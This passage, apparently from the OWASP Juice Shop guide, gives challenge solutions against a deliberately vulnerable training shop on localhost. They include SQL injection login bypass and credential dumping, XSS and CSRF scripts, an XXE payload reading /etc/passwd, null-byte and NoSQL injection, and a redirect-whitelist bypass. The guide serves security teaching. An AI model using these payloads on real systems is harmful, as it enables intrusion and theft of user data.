# :godmode: Appendix A - Challenge solutions

All URLs in the challenge solutions assume you are running the
application locally and on the default port http://localhost:3000.
Change the URL accordingly if you use a different root URL.

Often there are multiple ways to solve a challenge. In most cases just
one possible solution is presented here. This is typically the easiest
or most obvious one from the author's perspective.

_The challenge solutions found in this release of the companion guide
are compatible with `{{book.juiceShopVersion}}` of OWASP Juice Shop._

## Trivial Challenges (  :star:  )

### Access the administration section of the store

1. Open the `juice-shop.min.js` in your browser's developer tools and
   search for "admin".
2. Among the first entries you will find a route mapping to
   `/administration`.

   
3. Navigate to http://localhost:3000/#/administration to solve the
   challenge.

### Access a confidential document

1. Follow the link to titled _Check out our boring terms of use if you
   are interested in such lame stuff_
   (<http://localhost:3000/ftp/legal.md?md_debug=true>) on the _About
   Us_ page.
2. Successfully attempt to browse the directory by changing the URL into
   <http://localhost:3000/ftp>

   
3. Open <http://localhost:3000/ftp/acquisitions.md> to solve the
   challenge.

### Provoke an error that is not very gracefully handled.

Any request that cannot be properly handled by the server will
eventually be passed to a global error handling component that sends an
error page to the client that includes a stack trace and other sensitive
information. The restful API behaves in a similar way, passing back a
JSON error object with sensitive data, such as SQL query strings.

Here are four examples (out of many different ways) to provoke such an
error situation and solve this challenge along the way:

* Visit <http://localhost:3000/#/search?q=';>

  
* Visit <http://localhost:3000/ftp/crash>

  
* Visit <http://localhost:3000/ftp/crash.md>

  
* Log in to the application with `'` (single-quote) as _Email_ and
  anything as _Password_

  

### Let us redirect you to a donation site that went out of business

1. Log in to the application with any user.
2. Visit the _Your Basket_ page and expand the _Payment_ and
   _Merchandise_ sections with the "credit card"-button.
3. Inspect the _Payment_ section with your browser to find a commented
   out payment option to Gratipay.

   
4. Open
   <http://localhost:3000/redirect?to=https://gratipay.com/juice-shop>
   to solve the challenge.

### Find the carefully hidden 'Score Board' page

1. Open the _Source code view_ of your browser from any screen of the
   Juice Shop application.
2. Scroll down to the end of the `<nav>` tag that defines the menu bar

```html
            <li class="dropdown" ng-show="isLoggedIn()">
                <a href="#/complain"><i class="fas fa-bomb fa-lg"></i> <span translate="NAV_COMPLAIN"></span></a>
            </li>
            <li class="dropdown" ng-show="scoreBoardMenuVisible">
                <a href="#/score-board"><i class="fas fa-trophy fa-lg"></i> <span translate="TITLE_SCORE_BOARD"></span></a>
            </li>
            <li class="dropdown ribbon-spacer">
                <a href="#/about"><i class="fas fa-info-circle fa-lg"></i> <span translate="TITLE_ABOUT"></span></a>
            </li>
        </ul>
    </div>
</nav>
```

1. Notice the `<li>` entry linking to `#/score-board` which is hidden
   until the Score Board has been visited directly.
2. Navigate to http://localhost:3000/#/score-board to solve the
   challenge.
3. From now on you will see the additional menu item _Score Board_ in
   the navigation bar.

### Perform a reflected XSS attack

1. Log in as any user.
2. Click the _Track Orders_ button.
3. Paste the attack string `<script>alert("XSS")</script>` into the
   _Order ID_ field.
4. Click the _Track_ button.
5. An alert box with the text "XSS" should appear.

### Perform a DOM XSS attack

1. Paste the attack string `<script>alert("XSS")</script>` into the
   _Search..._ field.
2. Click the _Search_ button.
3. An alert box with the text "XSS" should appear.

   

### Give a devastating zero-star feedback to the store

1. Visit the _Contact Us_ form and put in a _Comment_ text.
2. The _Submit_ button is **disabled** because you did not select a
   _Rating_.
3. Select any of the stars to set a _Rating_.
4. The _Submit_ button is now **enabled**.
5. Select the same star again to unset the _Rating_.
6. Click the (still **enabled**) _Submit_ button to solve the challenge.

   
7. You can verify the feedback was saved by checking the _Customer
   Feedback_ widget on the _About Us_ page.

   

## Easy Challenges (  :star::star:  )

### Access someone else's basket

1. Log in as any user.
2. Put some products into your shopping basket.
3. Inspect the _Session Storage_ in your browser's developer tools to
   find a numeric `bid` value.

   
4. Change the `bid`, e.g. by adding or subtracting 1 from its value.
5. Visit <http://localhost:3000/#/basket> to solve the challenge.

If the challenge is not immediately solved, you might have to
`F5`-reload to relay the `bid` change to the Angular client.

### Order the Christmas special offer of 2014

1. Observe the JavaScript console while submitting the text `';` via the
   _Search_ field.
2. The `error` object contains the full SQL statement used for search
   for products.

   
3. Its `AND deletedAt IS NULL`-part is what is hiding the Christmas
   product we seek.
4. Searching for `'--` results in a `SQLITE_ERROR: syntax error` on the
   JavaScript console. This is due to two (now unbalanced) parenthesis
   in the query.
5. Searching for `'))--` fixes the syntax and successfully lists all
   products, including the (logically deleted) Christmas offer.
6. Add any regular product other than the _Christmas Super-Surprise-Box
   (2014 Edition)_ into you shopping basket to prevent problems at
   checkout later.
7. Add at least one _Christmas Super-Surprise-Box (2014 Edition)_ to
   your shopping basket.
8. Click _Checkout_ on the _Your Basket_ page to solve the challenge.

### Use a deprecated B2B interface that was not properly shut down

1. Log in as any user.
2. Click _Complain?_ to go to the _File Complaint_ form
3. Inspect the HTML file upload button for an _Invoice_ to see that it
   has `ngf-pattern="'.pdf,.xml'"` defined which means you are allowed
   to upload PDF and XML documents. Note the inconsistency with the
   `ngf-accept="'.pdf'"` attribute, which is what kind of document the
   file selection dialog will recommend you to pick from your computer.
4. A bit further down in the HTML you also find a commented out
   `<aside>` tag which would have rendered the value behind a
   translation key `B2B_CUSTOMER_QUESTION` with a tooltip of
   `ATTACH_ORDER_CONFIRMATION_XML`.

   
5. Click on the _Choose File_ button. It will filter only for PDF
   documents by default.
6. In the _File Name_ field enter `*.xml` and select any arbitrary XML
   file (<100KB) you have available. Then press _Open_.
7. Enter some _Message_ text and press _Submit_ to solve the challenge.
8. On the JavaScript Console of your browser you will see a suspicious
   `410 (Gone)` HTTP Error. In the corresponding entry in the Network
   section of your browser's DevTools, you should see an error message,
   telling you that `B2B customer complaints via file upload have been
   deprecated for security reasons!`

### Get rid of all 5-star customer feedback

1. Log in to the application with any user.
2. Solve
   [Access the administration section of the store](#access-the-administration-section-of-the-store)

   
3. Delete all entries with five star rating from the _Customer Feedback_
   table using the trashcan button

### Log in with the administrator's user account

* Log in with _Email_ `' or 1=1--` and any _Password_ which will
  authenticate the first entry in the `Users` table which happens to be
  the administrator
* or log in with _Email_ `admin@juice-sh.op'--` and any _Password_ if
  you have already know the email address of the administrator
* or log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
  if you looked up the administrator's password hash in a rainbow table
  after harvesting the user data
  * by solving
    [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
  * or via REST API call <http://localhost:3000/api/Users> after logging
    in as any user (even one you registered yourself).

### Log in with MC SafeSearch's original user credentials

1. Reading the hints for this challenge or googling "MC SafeSearch" will
   eventually bring the music video
   ["Protect Ya' Passwordz"](https://www.youtube.com/watch?v=v59CX2DiX0Y)
   to your attention.
2. Watch this video to learn that MC used the name of his dog "Mr.
   Noodles" as a password but changed "some vowels into zeroes".
3. Visit <http://localhost:3000/#/login> and log in with _Email_
   `mc.safesearch@juice-sh.op` and _Password_ `Mr. N00dles` to solve
   this challenge.

### Log in with the administrator's user credentials without previously changing them or applying SQL Injection

1. Visit <http://localhost:3000/#/login>.
2. Log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
   which is as easy to guess as it is to brute force or retrieve from a
   rainbow table.

### Behave like any "white hat" should

1. Visit <https://securitytxt.org/> to learn about a proposed standard
   which allows websites to define security policies.
2. Request the security policy file from the server at
   <http://localhost:3000/security.txt> to solve the challenge.
3. Optionally, write an email to the mentioned contact address
   <mailto:donotreply@owasp-juice.shop> and see what happens... :e-mail:

### Inform the shop about an algorithm or library it should definitely not use the way it does

Juice Shop uses some inappropriate crypto algorithms and libraries in
different places. While working on the following topics (and having the
`package.json.bak` at hand) you will learn those inappropriate choices
in order to exploit and solve them:

* [Forge a coupon code that gives you a discount of at least 80%](#forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80)
  exploits `z85` (Zero-MQ Base85 implementation) as the library for
  coupon codes.
* [Solve challenge #99](#solve-challenge-99) requires you to create a
  valid hash with the `hashid` library.
* Passwords in the `Users` table are hashed with unsalted MD5
* Users registering via Google account will get a very cheap default
  password that involves Base64 encoding.

<!-- -->

1. Visit <http://localhost:3000/#/contact>.
2. Submit your feedback with one of the following words in the comment:
   `z85`, `base85`, `base64`, `md5` or `hashid`.

## Medium Challenges (  :star::star::star:  )

### Learn about the Token Sale before its official announcement

1. Open the `juice-shop.min.js` in your browser's developer tools and
   search for "tokensale".
2. Among the first entries you will find an obfuscated route mapping
   using the `TokenSaleController`.

   
3. Navigate to <http://localhost:3000/#/tokensale> and
   <http://localhost:3000/#/token-sale> just to realize that these
   routes do not exist.
4. Copy the obfuscating function into the JavaScript console of your
   browser and execute it.

```javascript
"/" + function() {
        var e = Array.prototype.slice.call(arguments)
          , n = e.shift();
        return e.reverse().map(function(e, t) {
            return String.fromCharCode(e - n - 45 - t)
        }).join("")
    }(25, 184, 174, 179, 182, 186) + 36669..toString(36).toLowerCase() + function() {
        var e = Array.prototype.slice.call(arguments)
          , n = e.shift();
        return e.reverse().map(function(e, t) {
            return String.fromCharCode(e - n - 24 - t)
        }).join("")
    }(13, 144, 87, 152, 139, 144, 83, 138) + 10..toString(36).toLowerCase()
```

1. The console should give you the string `/tokensale-ico-ea` as a
   result.
2. Navigate to <http://localhost:3000/#/tokensale-ico-ea> to solve this
   challenge.

### Post some feedback in another users name

1. Go to the _Contact Us_ form on <http://localhost:3000/#/contact>.
2. Inspect the DOM of the form in your browser to spot this suspicious
   text field right at the top: `<input type="text" id="userId"
   ng-model="feedback.UserId" ng-hide="true" class="ng-pristine
   ng-untouched ng-valid ng-empty ng-hide">`

   
3. In your browser's developer tools mark the entire `class` attribute
   and delete it.

   
4. The field should now be visible in your browser. Type any user's
   database identifier in there (other than your own if you are
   currently logged in) and submit the feedback.

You can also solve this challenge by directly sending a `POST` to
<http://localhost:3000/api/Feedbacks> endpoint. You just need to be
logged out and send any `UserId` in the JSON payload.

### Access a salesman's forgotten backup file

1. Browse to <http://localhost:3000/ftp> (like in
   [Access a confidential document](#access-a-confidential-document).
2. Opening <http://localhost:3000/ftp/coupons_2013.md.bak> directly will
   fail complaining about an illegal file type.
3. Exploit a bug in the `md_debug` parameter that was obviously not
   supposed to go into production to bypass the filter and solve the
   challenge:
   <http://localhost:3000/ftp/coupons_2013.md.bak?md_debug=.md>

Alternatively this challenge can also be solved via _Poison Null Byte_
injection as in
[Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file).

### Log in with Bender's user account

* Log in with _Email_ `bender@juice-sh.op'--` and any _Password_ if you
  have already know Bender's email address.
* A rainbow table attack on Bender's password will probably fail as it
  is rather strong. You can alernatively solve
  [Change Bender's password into slurmCl4ssic without using SQL Injection](#change-benders-password-into-slurmcl4ssic-without-using-sql-injection)
  first and then simply log in with the new password.

### Log in with Jim's user account

* Log in with _Email_ `jim@juice-sh.op'--` and any _Password_ if you
  have already know Jim's email address.
* or log in with _Email_ `jim@juice-sh.op` and _Password_ `ncc-1701` if
  you looked up Jim's password hash in a rainbow table after harvesting
  the user data as described in
  [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection).

### Place an order that makes you rich

1. Log in as any user.
2. Put at least one item into your shopping basket.
3. Note that reducing the quantity of a basket item below 1 is not
   possible via the UI, so you will need to attack the RESTful API
   directly instead.
4. Copy your `Authorization` header from any HTTP request submitted via
   browser.
5. Submit a `PUT` request to <http://localhost:3000/api/BasketItems/1>
   with:
   * `{"quantity": -100}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   
6. Visit <http://localhost:3000/#/basket> to view _Your Basket_ with the
   negative quantity on the first item
7. Click _Checkout_ to issue the order and solve this challenge.

   

### Change the href of the link within the O-Saft product description

1. By clicking the "eye"-button on the _O-Saft_ product in the _Search
   Results_ you will learn that it's database ID is `9`.
2. Submit a `PUT` request to <http://localhost:3000/api/Products/9>
   with:
   * `{"description": "<a href=\"http://kimminich.de\"
     target=\"_blank\">More...</a>"}` as body
   * and `application/json` as `Content-Type`

   

### Reset Jim's password via the Forgot Password mechanism

1. Trying to find out who "Jim" might be should _eventually_ lead you to
   _James T. Kirk_ as a possible option

   
2. Visit https://en.wikipedia.org/wiki/James_T._Kirk and read the
   [Depiction](https://en.wikipedia.org/wiki/James_T._Kirk#Depiction)
   section
3. It tells you that Jim has a brother named _George Samuel Kirk_
4. Visit http://localhost:3000/#/forgot-password and provide
   `jim@juice-sh.op` as your _Email_
5. In the subsequently appearing form, provide `Samuel` as _Your eldest
   siblings middle name?_
6. Then type any _New Password_ and matching _Repeat New Password_
7. Click _Change_ to solve this challenge

   

### Upload a file larger than 100 kB

1. The client-side validation prevents uploads larger than 100 kB.
2. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a PDF file of more than 100 kB
   but less than 200 kB.

   
3. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

Files larger than 200 kB are rejected by an upload size check on server
side with a `500` error stating `Error: File too large`.

### Upload a file that has no .pdf extension

1. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a non-PDF file with a size of
   less than 200 kB.

   
2. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

Uploading a non-PDF file larger than 100 kB will solve
[Upload a file larger than 100 kB](#upload-a-file-larger-than-100-kb)
simultaneously.

### Perform a persisted XSS attack bypassing a client-side security mechanism

1. Submit a POST request to http://localhost:3000/api/Users with
   * `{"email": "<script>alert(\"XSS\")</script>", "password": "xss"}`
     as body
   * and `application/json` as `Content-Type` header.

   
2. Log in to the application with any user.
3. Visit http://localhost:3000/#/administration.
4. An alert box with the text "XSS" should appear.

   
5. Close this box. Notice the seemingly empty row in the _Registered
   Users_ table?
6. Click the "eye"-button next to that empty row.
7. A modal overlay dialog with the user details opens where the attack
   string is rendered as harmless text.

   

### Perform a persisted XSS attack without using the frontend application at all

1. Log in to the application with any user.
2. Copy your `Authorization` header from any HTTP request submitted via
   browser.
3. Submit a POST request to <http://localhost:3000/api/Products> with
   * `{"name": "XSS", "description": "<script>alert(\"XSS\")</script>",
     "price": 47.11}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   

   
4. Visit http://localhost:3000/#/search.
5. An alert box with the text "XSS" should appear.

   
6. Close this box. Notice the product row which seemingly lacks a
   description in the _All Products_ table?
7. Click the "eye"-button next to that row.
8. Another alert box with the text "XSS" should appear.

   

### Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. Prepare an XML file which defines and uses an external entity
   `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
   SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the _File Complaint_ dialog and observe the
   Javascript console while doing so. It should give you an error
   message containing the parsed XML, including the contents of the
   local system file!

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
```

## Hard Challenges (  :star::star::star::star:  )

### Change Bender's password into slurmCl4ssic without using SQL Injection

> The solution below assumes that you **do not know Bender's current
> password**, because in that case you could just change it via the
> _Password Change_ form.

1. Log in as anyone.
2. Inspecting the backend HTTP calls of the _Password Change_ form
   reveals that these happen via `HTTP GET` and submits current and new
   password in clear text.
3. Probe the responses of `/rest/user/change-password` on various
   inputs:
   * <http://localhost:3000/rest/user/change-password?current=A> yields
     a `401` error saying `Password cannot be empty.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B>
     yields a `401` error saying `New and repeated password do not
     match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C>
     also says `New and repeated password do not match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B>
     says `Current password is not correct.`
   * <http://localhost:3000/rest/user/change-password?new=B&repeat=B>
     yields a `200` success returning the updated user as JSON!
4. Now
   [Log in with Bender's user account](#log-in-with-benders-user-account)
   using SQL Injection.
5. Submit
   <http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic>
   to solve the challenge.

#### Bonus Round: Cross Site Request Forgery

If you want to craft an actual CSRF attack against
`/rest/user/change-password` you will have to invest a bit extra work,
because a simple attack like _Search_ for ``
will not work. Making someone click on the corresponding attack link
<http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E>
will return a `500` error when loading the image URL:

```html
  <!-- ... -->
  <body>
    <div id="wrapper">
      <h1>Juice Shop (Express ~4.14)</h1>
      <h2><em>500</em> Error: Blocked illegal activity by ::1</h2>
      <ul id="stacktrace">
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\routes\changePassword.js:40:14</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
        <li> &nbsp; &nbsp;at next (C:\Data\Github\juice-shop\node_modules\express\lib\router\route.js:131:13)</li>
        <li> &nbsp; &nbsp;at Route.dispatch (C:\Data\Github\juice-shop\node_modules\express\lib\router\route.js:112:3)</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:277:22</li>
        <li> &nbsp; &nbsp;at Function.process_params (C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:330:12)</li>
        <li> &nbsp; &nbsp;at next (C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:271:10)</li>
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\node_modules\sequelize-restful\lib\index.js:22:7</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
      </ul>
    </div>
  </body>
```

To make this exploit work, some more sophisticated attack URL is
required, for example the following one which was originally described
in the blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html)
by Joe Butler:

<http://localhost:3000/#/search?q=%3Cscript%3Exmlhttp%20%3D%20new%20XMLHttpRequest;%20xmlhttp.open('GET',%20'http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic');%20xmlhttp.send()%3C%2Fscript%3E>

Pretty-printed this attack is easier to understand:

```html
<script>
xmlhttp = new XMLHttpRequest;
xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic');
xmlhttp.send()
</script>
```

_Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!_

### Find the hidden easter egg

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download <http://localhost:3000/ftp/eastere.gg%2500.md>

### Apply some advanced cryptanalysis to find the real easter egg

1. Get the encrypted string from the `eastere.gg` from the
   [Find the hidden easter egg](#find-the-hidden-easter-egg) challenge:
   `L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`
2. Base64-decode this into
   `/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`
3. Trying this as a URL will not work. Notice the recurring patterns
   (`rtt`, `gur` etc.) in the above string
4. ROT13-decode this into
   `/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`
5. Visit
   <http://localhost:3000/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg>

   
6. Marvel at _the real_ easter egg: An interactive 3D scene of _Planet
   Orangeuze_!

> ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple
> letter substitution cipher that replaces a letter with the letter 13
> letters after it in the alphabet. ROT13 is a special case of the
> Caesar cipher, developed in ancient Rome.
>
> Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13
> is its own inverse; that is, to undo ROT13, the same algorithm is
> applied, so the same action can be used for encoding and decoding. The
> algorithm provides virtually no cryptographic security, and is often
> cited as a canonical example of weak encryption.[^1]


### Travel back in time to the golden era of web design

1. Visit <http://localhost:3000/#/score-board>
2. Inspecting the rotating "Hot"-image indicates that it is part of a
   CSS theme `geo-bootstrap`

   ```html
   <div ng-bind-html="challenge.description" class="ng-binding">
     Travel back in time to the golden era of  web design.
   </div>
   ```

3. Visit <https://github.com/divshot/geo-bootstrap> to learn that this
   _"timeless Twitter Bootstrap theme built for the modern web"_ comes
   with its own `bootstrap.css` that lives in a folder `/swatch`.
4. Open the JavaScript console of your browser.
5. Submit the command
   `document.getElementById("theme").setAttribute("href",
   "css/geo-bootstrap/swatch/bootstrap.css");` to enable this beautiful
   alternative layout for the Juice Shop.

   
   Unfortunately the theme resets whenever you reload the page via `F5`
   so you have to reissue the above command from time to time to stay in
   "nostalgia mode".

### Access a developer's forgotten backup file

1. Browse to <http://localhost:3000/ftp> (like in
   [Access a confidential document](#access-a-confidential-document).
2. Opening <http://localhost:3000/ftp/package.json.bak> directly will
   fail complaining about an illegal file type.
3. Exploiting the `md_debug` parameter like in
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   will not work here - probably because `package.json.bak` is not a
   Markdown file.
4. Using a _Poison Null Byte_ (`%00`) the filter can be tricked, but
   only with a twist:
   * Accessing <http://localhost:3000/ftp/package.json.bak%00.md> will
     surprisingly **not** succeed...
   * ...because the `%` character needs to be URL-encoded (into `%25`)
     as well in order to work its magic later during the file system
     access.
5. <http://localhost:3000/ftp/package.json.bak%2500.md> will ultimately
   solve the challenge.

> By embedding NULL Bytes/characters into applications that do not
> handle postfix NULL terminators properly, an attacker can exploit a
> system using techniques such as Local File Inclusion. The Poison Null
> Byte exploit takes advantage strings with a known length that can
> contain null bytes, and whether or not the API being attacked uses
> null terminated strings. By placing a NULL byte in the string at a
> certain byte, the string will terminate at that point, nulling the
> rest of the string, such as a file extension.[^2]

### Log in with Bjoern's user account

1. Bjoern has registered via Google OAuth with his (real) account
   <bjoern.kimminich@googlemail.com>.
2. Cracking his password hash will probably not work.
3. To find out how the OAuth registration and login work, inspect the
   `juice-shop.min.js` and search for `OAuthController`.

   
4. The `e.login()` function call leaks how the password is set:
   `password: d.encode(f.email)`
5. Checking the controller declaration you will see that `d` is actually
   an Angular service named `$base64`.
6. Now that you know that the auto-generated password for OAuth users is
   just their Base64-encoded email address, you can just log in with
   _Email_ `bjoern.kimminich@googlemail.com` and _Password_
   `YmpvZXJuLmtpbW1pbmljaEBnb29nbGVtYWlsLmNvbQ==`.

### Access a misplaced SIEM signature file

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download
   <http://localhost:3000/ftp/suspicious_errors.yml%2500.md>

### Let the server sleep for some time

1. You can interact with the backend API for product reviews via the
   dedicated endpoints `/rest/product/reviews` and
   `/rest/product/{id}/reviews`
2. Get the reviews of the product with database ID 1:
   http://localhost:3000/rest/product/1/reviews
3. Inject a
   [`sleep(integer ms)` command](https://docs.mongodb.com/manual/reference/method/sleep/)
   by changing the URL into
   http://localhost:3000/rest/product/sleep(2000)/reviews to solve the
   challenge

To avoid _real_ Denial-of-Service (DoS) issues, the Juice Shop will only
wait for a maximum of 2 seconds, so
http://localhost:3000/rest/product/sleep(999999)/reviews should take not
longer than http://localhost:3000/rest/product/sleep(2000)/reviews to
respond.

### Update multiple product reviews at the same time

1. Log in as any user.
2. Submit a PATCH request to http://localhost:3000/rest/product/reviews
   with
   * `{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }` as body
   * and `application/json` as `Content-Type` header.
3. Check different product detail dialogs to verify that all review
   texts have been changed into `NoSQL Injection!`

### Wherever you go, there you are

1. Pick one of the redirect links in the application, e.g.
   <http://localhost:3000/redirect?to=https://github.com/bkimminich/juice-shop>
   from the _Fork me on GitHub_-ribbon.
2. Trying to redirect to some unrecognized URL fails due to whitelist
   validation with `406 Error: Unrecognized target URL for redirect`.
3. Removing the `to` parameter (<http://localhost:3000/redirect>) will
   instead yield a `500 TypeError: Cannot read property 'indexOf' of
   undefined` where the `indexOf` indicates a severe flaw in the way the
   whitelist works.
4. Craft a redirect URL so that the target-URL in `to` comes with an own
   parameter containing a URL from the whitelist, e.g.
   <http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop>

### Reset Bender's password via the Forgot Password mechanism

1. Trying to find out who "Bender" might be should _immediately_ lead
   you to _Bender from [Futurama](http://www.imdb.com/title/tt0149460/)_
   as the only viable option

   
2. Visit https://en.wikipedia.org/wiki/Bender_(Futurama) and read the
   _Character Biography_ section
3. It tells you that Bender had a job at the metalworking factory,
   bending steel girders for the construction of _suicide booths_.
4. Find out more on _Suicide Booths_ on
   http://futurama.wikia.com/wiki/Suicide_booth
5. This site tells you that their most important brand is _Stop'n'Drop_
6. Visit http://localhost:3000/#/forgot-password and provide
   `bender@juice-sh.op` as your _Email_
7. In the subsequently appearing form, provide `Stop'n'Drop` as _Company
   you first work for as an adult?_
8. Then type any _New Password_ and matching _Repeat New Password_
9. Click _Change_ to solve this challenge

### Rat out a notorious character hiding in plain sight in the shop

:wrench: **TODO**

### Inform the shop about a typosquatting trick it has become victim of

1. Solve the
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)
   challenge and open the `package.json.bak` file
2. Scrutinizing each entry in the `dependencies` list you will at some
   point get to `epilogue-js`, the overview page of which gives away
   that you find the culprit at
   https://www.npmjs.com/package/epilogue-js

   
3. Visit <http://localhost:3000/#/contact>
4. Submit your feedback with `epilogue-js` in the comment to solve this
   challenge

You can probably imagine that the typosquatted `epilogue-js` would be _a
lot harder_ to distinguish from the original repository `epilogue`, if
it where not marked with the _THIS IS **NOT** THE MODULE YOU ARE LOOKING
FOR!_-warning at the very top. Below you can see the original `epilogue`
NPM page:



### Retrieve a list of all user credentials via SQL Injection

1. During the
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   challenge you learned that the _Search_ functionality is susceptible
   to SQL Injection.
2. The attack payload you need to craft is a `UNION SELECT` merging the
   data from the user's DB table into the products shown in the _Search
   Results_ table.
3. As a starting point we use the known working `'))--` attack pattern
   and try to make a `UNION SELECT` out of it
4. Searching for `')) UNION SELECT * FROM x--` fails with a
   `SQLITE_ERROR: no such table` as you would expect. But we can easily
   guess the table name or infer it from one of the previous attacks on
   the _Login_ form.
5. Searching for `')) UNION SELECT * FROM Users--` fails with a
   promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
   not have the same number of result columns` which least confirms the
   table name.
6. The next step in a `UNION SELECT`-attack is typically to find the
   right number of returned columns. As the _Search Results_ table has 3
   columns displaying data, it will at least be three. You keep adding
   columns until no more `SQLITE_ERROR` occurs (or at least it becomes a
   different one):

   1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7' FROM Users--`
      _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` shows a _Search Result_ with an interesting extra row at
      the bottom.

      
7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8' FROM Users--`

   
8. The last step is to replace the _visible_ fixed values with correct
   column names. You could guess those **or** derive them from the
   RESTful API results **or** remember them from previously seen SQL
   errors while attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT '1', id, email, password, '5',
   '6', '7', '8' FROM Users--` solves the challenge giving you a the
   list of all user data.

   

There is of course a much easier way to retrieve a list of all users as
long as you are logged in: Open <http://localhost:3000/#/administration>
while monitoring the HTTP calls in your browser's developer tools. The
response to <http://localhost:3000/rest/user/authentication-details>
contains all the user data in JSON format. But: This does not involve
SQL Injection so it will not count as a solution for this challenge.

### Inform the shop about a vulnerable library it is using

Juice Shop depends on a JavaScript library with known vulnerabilities.
Having the `package.json.bak` and using an external service like
[Node Security Platform](https://nodesecurity.io/) makes it rather easy
to identify it: `sanitize-html` is pinned to version `1.4.2` which has a
known bug of not sanitizing recursively (see
[Perform a persisted XSS attack bypassing a server-side security mechanism](#perform-a-persisted-xss-attack-bypassing-a-server-side-security-mechanism))

<!-- -->

1. Visit <http://localhost:3000/#/contact>
2. Submit your feedback with the string pair `sanitize-html` and `1.4.2`
   appearing somewhere in the comment.

### Perform a persisted XSS attack bypassing a server-side security mechanism

In the `package.json.bak` you might have noticed the pinned dependency
`"sanitize-html": "1.4.2"`. Internet research will yield a reported
[XSS - Sanitization not applied recursively](https://nodesecurity.io/advisories/135)
vulnerability, which was fixed with version 1.4.3 - one release later
than used by the Juice Shop. The referenced
[GitHub issue](https://github.com/punkave/sanitize-html/issues/29)
explains the problem and gives an exploit example:

